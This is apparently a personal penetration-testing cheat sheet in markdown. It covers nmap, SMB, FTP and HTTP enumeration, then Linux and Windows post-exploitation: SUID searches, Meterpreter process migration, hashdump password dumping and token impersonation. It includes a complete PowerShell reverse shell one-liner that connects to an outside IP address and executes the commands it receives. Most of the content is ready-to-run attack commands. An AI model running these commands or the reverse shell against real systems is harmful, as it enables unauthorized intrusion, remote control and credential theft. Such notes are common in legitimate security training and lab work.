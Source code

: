 # Enumeration

Documenting different ways to uncover ways to gain intial access and exploiting them.

## Table of Contents

- [NMAP](#NMAP)
- [SMB](#SMB)
- [FTP](#FTP)
- [HTTP](#HTTP)

---------------------------------------------------------------------------

# NMAP

As an alternative you can use `rustscan -a <address>`

Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`

---------------------------------------------------------------------------

# SMB

## Initial Access

`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share
Enumerate SMB via NMAP: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

---------------------------------------------------------------------------

# FTP

## Initial Access

### Anonymous Login

`ftp <address>`
login: anonymous (no password required)

### NMAP Scripts

`nmap --script ftp-* -p 21 <address>`

## Brute Force

[ftp-betterdefaultpasslist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

## Investigation

### Download all files

`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

---------------------------------------------------------------------------

# HTTP

## Initial Access

### Directory Discovery

GoBuster: `gobuster dirb --url=<address> --wordlist=<wordlist>`
After running go buster manually explore some interesting directories, such as robots.txt.

### Password Discovery

If you are having trouble brute-forcing a password for a blog, try creating a custom wordlist with cewl:
`cewl -d 3 -m 7 -w <wordlist to export> <http://address.com>`

### Reverse Shells

See [Reverse Shells](/exploitation/reverse_shells) for more information.

---------------------------------------------------------------------------

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
BEST: `find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

#### Find writable directories
`find -type d -writable`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string`
- Get list of running processes: `Get-Process`
